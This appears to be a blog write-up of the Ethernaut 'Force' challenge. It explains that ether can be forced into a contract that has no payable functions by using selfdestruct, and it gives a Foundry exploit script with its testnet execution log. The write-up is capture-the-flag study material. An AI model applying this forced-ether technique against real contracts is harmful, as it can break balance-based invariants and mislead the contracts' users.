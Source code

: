 ```yaml
---
layout: post
title: "[Ethernaut] Force"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. make the balance of the contract greater than zero

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

[Solidity 0.8.30 Documentation - sending and receiving ether](https://docs.soliditylang.org/en/latest/security-considerations.html#sending-and-receiving-ether)

> 💡 Neither contracts nor “external accounts” are currently able to prevent someone from sending them Ether. Contracts can react on and reject a regular transfer, but there are ways to move Ether without creating a message call. One way is to simply “mine to” the contract address and the second way is using `selfdestruct(x)`.


[Solidity 0.8.30 Documentation - deactivate and self destruct](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#deactivate-and-self-destruct)

The `selfdestruct()` function removes code from blockchain.

It move Ether stored in the contract to a specified address without creating a message call.

Even if a contract’s code does not contain a call to selfdestruct, it can still perform that operation using delegatecall or callcode.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Force.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(address payable force_) payable {
        selfdestruct(force_);
    }
}

contract ForceSol is Script {

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        new Ex{value: 1 wei}(payable(0xD38Cdc747b3Fdc5B553ec592a89b92db3015c2e6));

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/ForceSol.sol --broadcast --tc ForceSol
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001062799 gwei

Estimated total gas used for script: 83584

Estimated amount required: 0.000000088832991616 ETH

==========================

##### holesky
✅  [Success] Hash: 0xfe8f4a467eb59cc75d1969cbcb0338d23b568d91028e387bba6bcebb5c605526
Contract Address: 0xfF2baB3F127feb02B77A4dBd869b25f63d442b79
Block: 3677667
Paid: 0.000000068333210136 ETH (64296 gas * 0.001062791 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000068333210136 ETH (64296 gas * avg 0.001062791 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image getbalance]({{site.url}}/images/2025-04-19-Force/getbalance.png)

![Image complete]({{site.url}}/images/2025-04-19-Force/complete.png)
